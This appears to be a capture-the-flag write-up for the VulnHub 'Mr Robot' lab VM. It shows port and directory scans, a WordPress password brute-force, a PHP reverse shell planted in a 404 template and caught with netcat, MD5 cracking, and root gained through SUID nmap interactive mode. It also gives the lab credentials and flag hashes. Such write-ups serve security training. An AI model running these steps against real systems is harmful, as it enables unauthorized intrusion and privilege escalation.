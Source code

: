 Mr Robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Wordpress bruteforce
[+] MD5 - Password Cracking @ Crackstation
[+] Privilege Esclation with nmap --interactive (SUID)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-05 04:24 EST
Nmap scan report for 192.168.56.104
Host is up (0.00081s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:F7:40:77 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.81 ms 192.168.56.104

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.104

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 04:37:33 2019
URL_BASE: http://192.168.56.104/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.104/ ----
==> DIRECTORY: http://192.168.56.104/0/                                        
==> DIRECTORY: http://192.168.56.104/admin/                                    
+ http://192.168.56.104/atom (CODE:301|SIZE:0)                                 
==> DIRECTORY: http://192.168.56.104/audio/                                    
==> DIRECTORY: http://192.168.56.104/blog/                                     
==> DIRECTORY: http://192.168.56.104/css/                                      
+ http://192.168.56.104/dashboard (CODE:302|SIZE:0)                            
+ http://192.168.56.104/favicon.ico (CODE:200|SIZE:0)                          
==> DIRECTORY: http://192.168.56.104/feed/                                     
==> DIRECTORY: http://192.168.56.104/image/                                    
==> DIRECTORY: http://192.168.56.104/Image/                                    
==> DIRECTORY: http://192.168.56.104/images/                                   
+ http://192.168.56.104/index.html (CODE:200|SIZE:1077)                        
+ http://192.168.56.104/index.php (CODE:301|SIZE:0)                            
+ http://192.168.56.104/intro (CODE:200|SIZE:516314)                           
==> DIRECTORY: http://192.168.56.104/js/                                       
+ http://192.168.56.104/license (CODE:200|SIZE:309)                            
+ http://192.168.56.104/login (CODE:302|SIZE:0)                                
+ http://192.168.56.104/page1 (CODE:301|SIZE:0)                                
^[t                                                                             + http://192.168.56.104/phpmyadmin (CODE:403|SIZE:94)                          
+ http://192.168.56.104/rdf (CODE:301|SIZE:0)                                  
+ http://192.168.56.104/readme (CODE:200|SIZE:64)                              
+ http://192.168.56.104/robots (CODE:200|SIZE:41)                              
+ http://192.168.56.104/robots.txt (CODE:200|SIZE:41) 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting content of robots.txt we found a dictionary file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://www.example.com/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to http://www.example.com/wp-login we get the information that the user is elliot.

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot1.png)

After brute forcing the password for elliot using dictionary “ fsocity.dic” we get the following credentials:

username : elliot
password : ER28-0652

Logging into Wordpress

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot2.png)

We try to modify a standart 404 error page and add a reverse shell instead of the code for page not found .

After adding the code for the php- reverse-shell we get a reverse shell on the listenting port on kali linux .

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.104] 40889
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:59:34 up 35 min,  0 users,  load average: 1.38, 1.57, 1.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting password for user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ cat pass	
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Using Crack Station to crack the password

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/mr.Robot/mr.robot3.png)


Getting user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key	
cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Find SUID

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# whoami
whoami
root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

